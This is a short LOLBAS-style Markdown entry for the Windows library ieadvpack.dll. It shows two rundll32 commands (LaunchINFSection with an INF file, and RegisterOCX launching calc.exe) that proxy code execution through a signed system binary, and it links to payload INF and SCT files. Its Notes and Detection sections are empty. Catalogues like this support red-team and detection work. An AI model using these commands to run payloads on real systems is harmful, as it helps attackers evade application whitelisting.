## Ieadvpack.dll

* Functions: Execute

```
rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1,   
```

```
rundll32.exe IEAdvpack.dll,RegisterOCX calc.exe
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken (RegisterOCX)

Code sample:
* [Ieadvpack.inf](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSLibraries/Payload/Ieadvpack.inf)    
* [Ieadvpack_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSLibraries/Payload/Ieadvpack_calc.sct)

Resources:
* https://twitter.com/pabraeken/status/991695411902599168

Full path:
```
c:\windows\system32\ieadvpack.dll
c:\windows\sysWOW64\ieadvpack.dll
```

Notes:



Detection:


 
